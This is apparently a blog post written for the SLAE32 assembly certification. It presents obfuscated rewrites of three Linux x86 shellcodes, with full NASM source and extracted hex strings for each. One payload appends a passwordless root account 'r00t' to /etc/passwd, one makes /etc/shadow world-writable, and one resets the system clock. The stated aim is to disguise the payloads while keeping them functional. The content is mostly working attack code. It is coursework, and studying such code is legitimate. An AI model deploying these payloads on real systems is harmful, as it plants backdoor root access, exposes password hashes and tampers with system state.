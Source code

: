 # 6. Obfuscated Shellcode

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-1568

## Task

The task is to create obfuscated versions of three shellcodes from http://shell-storm.org/shellcode/ for Linux on the x86 architecture. The goal is to modify the shellcode while preserving functionality.

Additionally, smaller code size is preferred.

## Modified "Add Root User"

Original shellcode by Kris Katterjohn can be found [here](http://shell-storm.org/shellcode/files/shellcode-211.php).

The modified version can be found [here](https://github.com/SpacePlant/slae32/blob/main/add_root_user.nasm):

```nasm
global _start

section .text

_start:
    ; int open(const char *pathname, int flags): syscall 0x5
    ;   fd = open("/etc//passwd", O_WRONLY | O_APPEND)
    xor ecx, ecx        ; ecx = 0
    push ecx            ; string null-termintator
    mov eax, 0x64777373 
    push eax            ; "sswd" reversed
    xor eax, 0x5075C5C
    push eax            ; "//pa" reversed
    xor eax, 0x2044A01
    inc eax
    push eax            ; "/etc" reversed
    mov ebx, esp        ; ebx = "/etc/passwd"
    mul ecx             ; eax = 0, edx = 0
    mov al, 0x5         ; eax = 5
    mov cx, 0x401       ; ecx = O_WRONLY | O_APPEND
    int 0x80            ; perform syscall
    
    ; ssize_t write(int fd, const void *buf, size_t count): syscall 0x4
    ;   write(fd, "r00t::0:0:::", 12)
    xchg eax, ebx       ; ebx = fd
    mov eax, 0x3a3a3a30
    push eax            ; "0:::" reversed
    ror eax, 16
    push eax            ; "::0:" reversed
    add eax, 0x39FFF638
    push eax            ; "r00t" reversed
    mov ecx, esp        ; ecx = "r00t::0:0:::"
    push byte 0x4
    pop eax             ; eax = 4
    mov dl, 0xc         ; edx = 12
    int 0x80            ; perform syscall
    
    ; int close(int fd): syscall 0x6
    ;   close(fd)
    shr al, 1           ; eax = 6 (eax = 12 from write return)
    int 0x80            ; perform syscall (ebx is already set)
    
    ; void _exit(int status): syscall 0x1
    ;   _exit(whatever)
    inc eax             ; eax = 1 (eax = 0 from close return)
    int 0x80            ; perform syscall
```

The modified version is 2 bytes (~3%) smaller than the original shellcode:

```sh
$ shellcode=$(for i in $(objdump -d add_root_user | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x31\xc9\x51\xb8\x73\x73\x77\x64\x50\x35\x5c\x5c\x07\x05\x50\x35\x01\x4a\x04\x02\x40\x50\x89\xe3\xf7\xe1\xb0\x05\x66\xb9\x01\x04\xcd\x80\x93\xb8\x30\x3a\x3a\x3a\x50\xc1\xc8\x10\x50\x05\x38\xf6\xff\x39\x50\x89\xe1\x6a\x04\x58\xb2\x0c\xcd\x80\xd0\xe8\xcd\x80\x40\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
67
```

The shellcode is executed successfully using the C template:

!["Add root user" executed](images/add_root_user.png)

## Modified "Chmod Shadow File"

Original shellcode by Kris Katterjohn can be found [here](http://shell-storm.org/shellcode/files/shellcode-210.php).

The modified version can be found [here](https://github.com/SpacePlant/slae32/blob/main/chmod_shadow.nasm):

```nasm
global _start

section .text

_start:
    ; int chmod(const char *pathname, mode_t mode): syscall 0xf
    ;   chmod("/etc/shadow", 0666)
    push byte 0x77      ; "w"
    push word 0x6f64    ; "do" reversed
    mov eax, 0x6168732f
    push eax            ; "/sha" reversed
    xor eax, 0x21C1601
    inc eax
    push eax            ; "/etc" reversed
    mov ebx, esp        ; ebx = "/etc/shadow"
    and eax, 0xf        ; eax = 0xf
    push word 0x1b6
    pop ecx             ; ecx = 0x652f[01b6] = 0666
    int 0x80            ; perform syscall
    
    ; void _exit(int status): syscall 0x1
    ;   _exit(whatever)
    inc eax             ; eax = 1
    int 0x80            ; perform syscall
```

The modified version is 2 bytes (~6%) smaller than the original shellcode:

```sh
$ shellcode=$(for i in $(objdump -d chmod_shadow | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x6a\x77\x66\x68\x64\x6f\xb8\x2f\x73\x68\x61\x50\x35\x01\x16\x1c\x02\x40\x50\x89\xe3\x83\xe0\x0f\x66\x68\xb6\x01\x59\xcd\x80\x40\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
34
```

The shellcode is executed successfully using the C template:

!["Chmod shadow file" executed](images/chmod_shadow.png)

## Modified "Reset System Time"

Original shellcode by Kris Katterjohn can be found [here](http://shell-storm.org/shellcode/files/shellcode-213.php).

The modified version can be found [here](https://github.com/SpacePlant/slae32/blob/main/reset_time.nasm):

```nasm
global _start

section .text

_start:
    ; int stime(const time_t *t): syscall 0x19
    ;   stime([0])
    xor eax, eax    ; eax = 0
    push eax
    mov ebx, esp    ; ebx = [0]
    mov al, 0x19    ; eax = 25
    int 0x80        ; perform syscall
    
    ; void _exit(int status): syscall 0x1
    ;   _exit(whatever)
    inc eax         ; eax = 1
    int 0x80        ; perform syscall
```

The modified version is the same size as the original shellcode:

```sh
$ shellcode=$(for i in $(objdump -d reset_time | grep "^ " | cut -f 2); do echo -n '\x'$i; done)
$ echo $shellcode
\x31\xc0\x50\x89\xe3\xb0\x19\xcd\x80\x40\xcd\x80
$ echo $shellcode | tr -cd 'x' | wc -c
12
```

The shellcode is executed successfully using the C template:

!["Reset system time" executed](images/reset_time.png)
